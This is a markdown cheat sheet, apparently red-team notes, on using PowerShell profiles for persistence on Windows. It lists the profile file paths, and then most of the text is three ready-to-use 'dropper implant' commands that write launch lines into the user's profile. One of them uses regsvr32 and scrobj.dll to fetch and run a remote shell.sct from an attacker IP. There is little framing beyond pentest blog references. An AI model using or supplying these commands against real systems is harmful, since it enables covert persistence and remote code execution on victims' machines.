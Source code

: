 # PowerShell Profile

## 01 - Common Files Location

### 1.1 - Unix

```
$PSHOME\Profile.ps1
$PSHOME\Microsoft.PowerShell_profile.ps1
```

### 1.2 - Windows

```
C:\Users\$Env:USERNAME\Documents\PowerShell\Profile.ps1
C:\Users\$Env:USERNAME\Documents\PowerShell\Microsoft.PowerShell_profile.ps1
```

## 02 - Dropper Implant

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Start-Process "C:\tmp\pentestlab.exe"'
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

## 03 - Batch Script Dropper Implant

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
Add-Content $profile "Invoke-Item C:\tmp\launcher.bat"
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

## 04 - Web Delivery

```powershell
PS C:\> Write-Output $profile
Test-Path $profile
New-Item -Path $profile -Type File -Force
$string = 'Invoke-Command -ScriptBlock { regsvr32.exe /s /n /u /i:http://<IP>/shell.sct scrobj.dll }'
$string | Out-File -FilePath "C:\Users\$Env:USERNAME\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

---
## References

### Persistence Info

- [Persistence Info: PowerShell Profile](https://persistence-info.github.io/Data/powershellprofile.html)

### Pentestlab

- [Pentestlab Blog: Persistence Powershell Profile](https://pentestlab.blog/2019/11/05/persistence-powershell-profile/)

### enigma0x3

- [enigma0x3: Abusing Powershell Profiles](https://enigma0x3.net/2014/06/16/abusing-powershell-profiles/)

### Github

- [enigma0x3: PowershellProfile Macro](https://github.com/enigma0x3/PowershellProfile/blob/master/Macro)